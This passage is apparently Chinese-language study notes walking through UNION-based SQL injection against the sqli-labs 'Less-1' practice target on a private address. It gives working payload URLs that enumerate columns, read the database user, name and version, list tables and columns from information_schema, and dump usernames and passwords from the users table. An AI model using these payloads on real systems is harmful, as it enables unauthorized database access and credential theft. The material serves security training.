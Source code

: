 ![image-20240802211019630](../../../../repo/assets/19.SQL注入/image-20240802211019630.png)

![image-20240802211104090](../../../../repo/assets/19.SQL注入/image-20240802211104090.png)

### **2、** **利用 union select 联合查询，获取库名和表名。**

#### 查询显示位

```
http://192.168.70.14:8088/Less-1/?id=0' UNION SELECT 1,2,3 --+
```

![image-20240802211125642](../../../../repo/assets/19.SQL注入/image-20240802211125642.png)

查询 2，3 字段

#### 获得用户和数据库名

```
http://192.168.70.14:8088/Less-1/?id=0' UNION SELECT 1,user(),database() --+
```

![image-20240802211206685](../../../../repo/assets/19.SQL注入/image-20240802211206685.png)

#### 看 version 版本

```
http://192.168.70.14:8088/Less-1/?id=0' UNION SELECT 1,version(),database() --+
```

![image-20240802211432008](../../../../repo/assets/19.SQL注入/image-20240802211432008.png)

#### 具体开始探测

```
http://192.168.70.14:8088/Less-1/?id=0' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database() --+
```

![image-20240802211608731](../../../../repo/assets/19.SQL注入/image-20240802211608731.png)

### **3、** **利用 union select 联合查询，获取字段名。**

```
http://192.168.70.14:8088/Less-1/?id=0' union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users' --+
```

![image-20240802211702988](../../../../repo/assets/19.SQL注入/image-20240802211702988.png)

### **4、** **利用 union select 联合查询，获取字段值**

```
http://192.168.70.14:8088/Less-1/?id=0' union select 1,group_concat(username,0x3a,password),3 from users --+
```
